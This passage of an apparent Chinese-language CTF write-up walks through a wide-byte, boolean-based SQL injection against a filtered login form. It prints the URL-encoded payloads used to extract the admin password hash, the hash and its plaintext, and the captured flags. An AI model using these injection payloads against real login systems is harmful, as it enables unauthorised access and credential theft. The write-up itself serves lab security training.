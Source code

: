 ![15](/img/2019-04-19/15.png)
flag:CTF{Sql_INJECT0N_4813drd8hz4}

### W3-web3
查看源代码可以看到页面设置了`<html lang="en">`，可能存在宽字节注入
![8](/img/2019-04-19/8.png)
登录框过滤了`空格`，`=`，`and`，但是`or`，`<`,`>`,`'`,`select`都没有过滤，同时用户名正确时只会显示password error
构造测试payload
```
username=admin%df%27or'1'>'1&password=1
username=admin%df%27or'2'>'1&password=1
```
再替换位置
```
username=admin%df%27or(select(password))>'0&password=1
```
不断变大后面的字符串就得到密码的md5值51b7a76d51e70b419f60d3473fb6f900，解密得到skctf123456，然后登录拿到flag